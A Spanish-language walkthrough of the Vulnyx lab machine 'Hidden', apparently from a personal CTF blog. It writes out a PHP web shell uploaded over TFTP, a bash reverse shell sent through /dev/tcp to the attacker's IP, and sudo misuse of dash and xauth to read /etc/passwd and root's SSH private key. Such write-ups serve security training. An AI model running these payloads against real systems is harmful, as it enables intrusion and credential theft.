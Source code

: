 ```yaml
---
layout: post
title: "Hidden"
date: 2024-04-23 17:50:23
category: Vulnyx
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Hidden </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#hidden"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/hidden/host.png){:.margin}

**1\.** Revisamos hosts en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/hidden/arp_scan.png){:.margin}

**2\.** Escaneamos puertos y servicios activos.

`sudo nmap -p- -T5 --open -sCV -n -Pn --min-rate=5000 192.168.1.4 -oN port_scan`

![img](/notas/public/img/vulnyx/hidden/nmap.png){:.margin}

**3\.** Por defecto en el servicio Apache no encontramos nada.

`http://192.168.1.4:80`

![img](/notas/public/img/vulnyx/hidden/80.png){:.margin}

**4\.** Hacemos fuzzing en busca de directorios y archivos.

`gobuster dir -u http://192.168.1.4/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt`

![img](/notas/public/img/vulnyx/hidden/gobuster.png){:.margin}
_\- No hallamos nada util._

**5\.** Escaneamos 500 puertos más comunes en el protocolo UDP.

`sudo nmap -sU --top-ports 500 192.168.1.4`

![img](/notas/public/img/vulnyx/hidden/udp.png){:.margin}

**6\.** Iniciamos en el servicio TFTP, vemos los comandos disponibles.

`tftp 192.168.1.4`

`help`

![img](/notas/public/img/vulnyx/hidden/tftp.png){:.margin}

**7\.** Creamos nuestra archivo para ejecutar comandos en la url.

`nano shell.php`

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/hidden/shell.png){:.margin}

_\- _Subimos nuestro archivo._

`put shell.php`

![img](/notas/public/img/vulnyx/hidden/put.png){:.margin}

**8\.** Apuntamos a nuestro archivo y le indicamos un comando.

`http://192.168.1.4/shell.php?cmd=id`

![img](/notas/public/img/vulnyx/hidden/id.png){:.margin}

**9\.** Nos ponemos en escucha por netcat.

`sudo nc -nlvp 443`

![img](/notas/public/img/vulnyx/hidden/nc.png){:.margin}

**10\.** Nos enviamos la reverse shell.

`http://192.168.1.4/shell.php?cmd=bash%20-c "bash -i>26/dev/tcp/192.168.1.9/443 0>%261"`

![img](/notas/public/img/vulnyx/hidden/reverse_shell.png){:.margin}

**11\.** Por netcat vemos que recibimos la conexión.


![img](/notas/public/img/vulnyx/hidden/connected.png){:.margin}

**12\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo; fg`

`reset xterm`

`export TERM=xterm`

`export SHELL=bash`

![img](/notas/public/img/vulnyx/hidden/stty.png){:.margin}

![img](/notas/public/img/vulnyx/hidden/stty2.png){:.margin}

**13\.** Revisamos permisos sudo, podemos ejecutar dash como usuario satan.

`sudo -l`

![img](/notas/public/img/vulnyx/hidden/sudo_l.png){:.margin}

**14\.** Ganamos acceso como usuario satan; [dash](https://gtfobins.github.io/#dash).

`sudo -u satan dash`

![img](/notas/public/img/vulnyx/hidden/dash.png){:.margin}

**15\.** Revisamos permisos sudo, tenemos dos binarios con todos los permisos.

`sudo -l`

![img](/notas/public/img/vulnyx/hidden/sudo_l_satan.png){:.margin}

**16\.** En este caso usare xauth, ya que tenemos una opción interesante.

`xauth -h`

![img](/notas/public/img/vulnyx/hidden/xauth_help.png){:.margin}

**17\.** El binario espera un archivo con comandos, pero al no ser un comando nos muestra el contenido.

`sudo -u root xauth source /etc/passwd`

![img](/notas/public/img/vulnyx/hidden/etc_passwd.png){:.margin}

**18\.** Aprovechemos para leer el idrsa de root; lo copiamos.

`sudo -u root xauth source /root/.ssh/id_rsa`

![img](/notas/public/img/vulnyx/hidden/idrsa.png){:.margin}


**19\.** Lo guardamos en una archivo, completamos la cabecera y el pie del idrsa.

`nano id_rsa`

![img](/notas/public/img/vulnyx/hidden/nano_idrsa.png){:.margin}

_\- Le asignamos los permisos correspondientes._ 

`chmod 600 id_rsa`

![img](/notas/public/img/vulnyx/hidden/chmod.png){:.margin}

**20\.** Nos conectamos por ssh como root, y finalizamos obteniendo la flag.

`ssh -i id_rsa root@192.168.1.4`

`cd /root/`

`ls -a`

`cat .root.txt`

![img](/notas/public/img/vulnyx/hidden/flag.png){:.margin}

<br>

<a href="#">_Finalizado._</a>